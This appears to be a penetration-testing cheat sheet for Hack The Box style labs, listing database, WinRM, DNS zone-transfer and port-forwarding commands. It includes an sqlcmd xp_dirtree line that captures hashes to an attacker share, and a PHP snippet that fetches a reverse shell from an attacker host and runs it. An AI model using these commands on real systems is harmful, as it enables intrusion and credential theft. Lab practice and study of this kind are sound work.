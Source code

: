 ```
```
### Connecting to Oracle Database with Sqlplus
```powershell
sqlplus user/password@target_ip/sid as sysdba

# if we can't access as admin
sqlplus user/password@target_ip/sid
```
### PowerUpSQL Cheat Sheet

[https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://)
### Sqlcmd
```bash=
sqlcmd -? # for help
sqlcmd -Q 'xp_dirtree "//10.10.14.45/test"' # use responder to capture password
```
### Evil-winrm
```bash
evilwinrm -i 10.10.10.172 -u user -p 'password'
```
### Zone Transfers
```bash
dig axfr @10.10.10.13 cronos.htb
host -t axfr cronos.htb 10.10.10.13
```
### TcpDump
```bash
# filter for ICMP packets
tcpdump -i [interface] -n icmp
```
### Port Forwarding
```bash
# remote port forward example
#     - target had internal mysql port open
#     - port forward to our machine to gain access to internal port
ssh -R 3306:127.0.0.1:3306 root@10.10.14.45

# local port foward example
#     - target had internal mysql port open
#     - connecting to target and forwarding traffic from internal port 3306 to our port 3306 
ssh -L 3306:127.0.0.1:3306 user@10.10.10.10
```
### Connect to MySQL Database
```bash
mysql -h [target] --port [target_port] -u [user] -p [password]
# prompt for password
mysql -h [target] --port [target_port] -u [user] -p

# example for remote port forwarding
mysql -h 127.0.0.1 --port 3333 -u MYSQL_USER -pMYSQL_PASS
```
### PHP Download and execute
```php=
<?php
exec("curl http://10.10.14.45/php-reverse-shell.php | php")
?>
```
### Exporting PATH
```bash
# adding /tmp to PATH
```
